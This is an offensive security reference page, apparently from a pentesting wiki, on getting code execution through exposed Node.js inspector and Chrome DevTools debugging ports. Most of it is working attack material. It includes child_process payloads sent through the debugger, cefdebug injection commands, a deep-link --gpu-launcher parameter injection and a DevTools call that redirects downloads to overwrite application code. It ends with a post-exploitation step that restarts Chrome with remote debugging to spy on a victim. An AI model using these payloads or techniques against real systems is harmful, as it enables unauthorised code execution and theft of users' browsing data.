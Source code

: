 ## Basic Information

: When started with the `--inspect` switch, a Node.js process listens for a debugging client. By default, it will listen at host and port `127.0.0.1:9229`. Each process is also assigned a unique UUID.

Inspector clients must know and specify host address, port, and UUID to connect. A full URL will look something like `ws://127.0.0.1:9229/0f2c936f-b1cd-4ac9-aab3-f63b0f33d55e`.

Since the debugger has full access to the Node.js execution environment, a malicious actor able to connect to this port may be able to execute arbitrary code on behalf of the Node.js process (potential privilege escalation).

There are several ways to start an inspector:

```
node --inspect app.js #Will run the inspector in port 9229
node --inspect=4444 app.js #Will run the inspector in port 4444
node --inspect=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
node --inspect-brk=0.0.0.0:4444 app.js #Will run the inspector all ifaces and port 4444
# --inspect-brk is equivalent to --inspect

node --inspect --inspect-port=0 app.js #Will run the inspector in a random port
# Note that using "--inspect-port" without "--inspect" or "--inspect-brk" won't run the inspector
```

When you start an inspected process something like this will appear:

```
Debugger ending on ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
For help, see: https://nodejs.org/en/docs/inspector
```

Processes based on CEF (Chromium Embedded Framework) like need to use the param: `--remote-debugging-port=9222` to open de debugger (the SSRF protections remain very similar). However, they instead of granting a NodeJS debug session will communicate with the browser using the , this is an interface to control the browser, but there isn't a direct RCE.

When you start a debugged browser something like this will appear:

```
DevTools listening on ws://127.0.0.1:9222/devtools/browser/7d7aa9d9-7c61-4114-b4c6-fcf5c35b4369
```

### Browsers, WebSockets and same-origin policy

Websites open in a web-browser can make WebSocket and HTTP requests under the browser security model. An initial HTTP connection is necessary to obtain a unique debugger session id. The same-origin-policy prevents websites from being able to make this HTTP connection. For additional security against , Node.js verifies that the 'Host' headers for the connection either specify an IP address or `localhost` or `localhost6` precisely.

This security measures prevents exploiting the inspector to run code by just sending a HTTP request (which could be done exploiting a SSRF vuln).

### Starting inspector in running processes

You can send the signal SIGUSR1 to a running nodejs process to make it start the inspector in the default port. However, note that you need to have enough privileges, so this might grant you privileged access to information inside the process but no a direct privilege escalation.

```
kill -s SIGUSR1 <nodejs-ps>
# After an URL to access the debugger will appear. e.g. ws://127.0.0.1:9229/45ea962a-29dd-4cdd-be08-a6827840553d
```

This is useful in containers because shutting down the process and starting a new one with `--inspect` is not an option because the container will be killed with the process.

### Connect to inspector/debugger

To connect to a Chromium-based browser, the `chrome://inspect` or `edge://inspect` URLs can be accessed for Chrome or Edge, respectively. By clicking the Configure button, it should be ensured that the target host and port are correctly listed. The image shows a Remote Code Execution (RCE) example:

Using the command line you can connect to a debugger/inspector with:

```
node inspect <ip>:<port>
node inspect 127.0.0.1:9229
# RCE example from debug console
debug> exec("process.mainModule.require('child_process').exec('/Applications/iTerm.app/Contents/MacOS/iTerm2')")
```

The tool , allows to find inspectors running locally and inject code into them.

```
#List possible vulnerable sockets
./cefdebug.exe
#Check if possibly vulnerable
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.version"
#Exploit it
./cefdebug.exe --url ws://127.0.0.1:3585/5a9e3209-3983-41fa-b0ab-e739afc8628a --code "process.mainModule.require('child_process').exec('calc')"
```

Note that NodeJS RCE exploits won't work if connected to a browser via  (you need to check the API to find interesting things to do with it).

## RCE in NodeJS Debugger/Inspector

If you came here looking how to get 

Some common ways to obtain RCE when you can connect to a Node inspector is using something like (looks that this won't work in a connection to Chrome DevTools protocol):

```
process.mainModule.require('child_process').exec('calc')
window.appshell.app.openURLInDefaultBrowser("c:/windows/system32/calc.exe")
require('child_process').spawnSync('calc.exe')
Browser.open(JSON.stringify({url: "c:\\windows\\system32\\calc.exe"}))
```

## Chrome DevTools Protocol Payloads

You can check the API here: 
In this section I will just list interesting things I find people have used to exploit this protocol.

### Parameter Injection via Deep Links

In the  Rhino security discovered that an application based on CEF registered a custom URI in the system (workspaces://) that received the full URI and then launched the CEF based application with a configuration that was partially constructing from that URI.

It was discovered that the URI parameters where URL decoded and used to launch the CEF basic application, allowing a user to inject the flag `--gpu-launcher` in the command line and execute arbitrary things.

So, a payload like:

```
workspaces://anything%20--gpu-launcher=%22calc.exe%22@REGISTRATION_CODE
```

Will execute a calc.exe.

### Overwrite Files

Change the folder where downloaded files are going to be saved and download a file to overwrite frequently used source code of the application with your malicious code.

```
ws = new WebSocket(url); //URL of the chrome devtools service
ws.send(JSON.stringify({
    id: 42069,
    method: 'Browser.setDownloadBehavior',
    params: {
        behavior: 'allow',
        downloadPath: '/code/'
    }
}));
```

### Webdriver RCE and exfiltration

According to this post:  it's possible to obtain RCE and exfiltrate internal pages from theriver.

### Post-Exploitation

In a real environment and after compromising a user PC that uses Chrome/Chromium based browser you could launch a Chrome process with the debugging activated and port-forward the debugging port so you can access it. This way you will be able to inspect everything the victim does with Chrome and steal sensitive information.

The stealth way is to terminate every Chrome process and then call something like

```
Start-Process "Chrome" "--remote-debugging-port=9222 --restore-last-session"
```